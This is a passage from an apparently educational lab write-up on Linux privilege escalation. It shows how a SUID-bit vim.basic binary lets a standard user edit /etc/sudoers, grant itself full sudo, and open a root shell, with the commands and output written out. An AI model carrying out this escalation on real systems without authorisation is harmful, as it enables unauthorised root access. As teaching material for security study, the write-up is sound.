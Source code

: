 
### #4 - vim.basic SUID

Looking at the permission for **/usr/bin/vim.basic** shows us it has a SUID bit set:

`ls -al /usr/bin/vim.basic`

```
-rwsr-xr-x 1 root root 2441416 Oct 14  2020 /usr/bin/vim.basic
```

With this we can edit files only accessable by root as a standard user. For example if we try and display the **/etc/sudoers** file:

`cat /etc/sudoers`

```
cat: /etc/sudoers: Permission denied
```

But if we edit it with vim.basic:

`vim.basic /etc/sudoers`

![](gRoot/groot10.png)

It works, and on top of that we can change the file. We can change our localuser account to have full sudo access. I comment out the 2 lines at the bottom for our user and then add a line below the root account with ALL to everything:

![](gRoot/groot11.png)

Note: you have to use **:wq!** to get it to save the file.

Now when checking `sudo -l`:

```
sudo: unable to resolve host ip-10-50-153-253
Matching Defaults entries for localuser on ip-10-50-153-253:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User localuser may run the following commands on ip-10-50-153-253:
    (ALL : ALL) ALL
```

And running a quick `sudo bash` gets us a root shell:

```
localuser@ip-10-50-153-253:~$ sudo bash
sudo: unable to resolve host ip-10-50-153-253
root@ip-10-50-153-253:~# whoami
root
```

---

### #5 - systemctl SUID
